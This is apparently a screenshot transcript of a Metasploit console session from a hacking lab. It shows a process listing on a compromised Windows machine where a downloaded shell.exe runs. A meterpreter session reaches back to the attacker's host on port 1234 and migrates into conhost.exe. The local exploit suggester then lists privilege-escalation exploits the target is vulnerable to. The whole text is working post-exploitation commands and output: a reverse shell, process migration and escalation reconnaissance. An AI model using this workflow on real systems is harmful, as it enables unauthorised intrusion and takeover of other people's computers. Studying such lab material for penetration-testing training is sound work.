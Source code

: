 ~~~
 1816  784   WmiPrvSE.exe                                        
 1944  680   svchost.exe                                         
 1968  680   svchost.exe                                         
 2040  784   WmiPrvSE.exe                                        
 2128  680   SearchIndexer.exe                                   
 2172  2128  SearchProtocolHost.exe                              
 2288  996   dwm.exe                 x64   2        TCM-PC\user  C:\Windows\System32\dwm.exe
 2316  2096  explorer.exe            x64   2        TCM-PC\user  C:\Windows\explorer.exe
 2572  680   wmpnetwk.exe                                        
 2628  680   TrustedInstaller.exe                                
 2744  2736  csrss.exe                                           
 2768  2736  winlogon.exe                                        
 3000  680   taskhost.exe            x64   2        TCM-PC\user  C:\Windows\System32\taskhost.exe
 3052  100   taskeng.exe                                         
 3124  2316  cmd.exe                 x64   2        TCM-PC\user  C:\Windows\System32\cmd.exe
 3136  2744  conhost.exe             x64   2        TCM-PC\user  C:\Windows\System32\conhost.exe
 3312  3124  shell.exe               x86   2        TCM-PC\user  C:\Users\user\Downloads\shell.exe
 3332  100   WMIADAP.exe                                         
 3456  2128  SearchProtocolHost.exe  x64   2        TCM-PC\user  C:\Windows\System32\SearchProtocolHost.exe
 3480  2128  SearchFilterHost.exe                                

meterpreter > migrate 3136
[*] Migrating from 3312 to 3136...
[*] Migration completed successfully.
meterpreter > background 
[*] Backgrounding session 1...
msf5 exploit(multi/handler) > sessions 

Active sessions
===============

  Id  Name  Type                     Information           Connection
  --  ----  ----                     -----------           ----------
  1         meterpreter x64/windows  TCM-PC\user @ TCM-PC  10.9.**.**:1234 -> 10.10.122.198:49183 (10.10.122.198)

msf5 exploit(multi/handler) > use post/multi/recon/local_exploit_suggester
msf5 post(multi/recon/local_exploit_suggester) > set SESSION 1
SESSION => 1
msf5 post(multi/recon/local_exploit_suggester) > show options

Module options (post/multi/recon/local_exploit_suggester):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   SESSION          1                yes       The session to run this module on
   SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits

msf5 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.122.198 - Collecting local exploits for x64/windows...
[*] 10.10.122.198 - 15 exploit checks are being tried...
[+] 10.10.122.198 - exploit/windows/local/always_install_elevated: The target is vulnerable.
[+] 10.10.122.198 - exploit/windows/local/bypassuac_dotnet_profiler: The target appears to be vulnerable.
[+] 10.10.122.198 - exploit/windows/local/bypassuac_sdclt: The target appears to be vulnerable.
[+] 10.10.122.198 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.122.198 - exploit/windows/local/ms16_014_wmi_recv_notif: The target appears to be vulnerable.
[*] Post module execution completed
~~~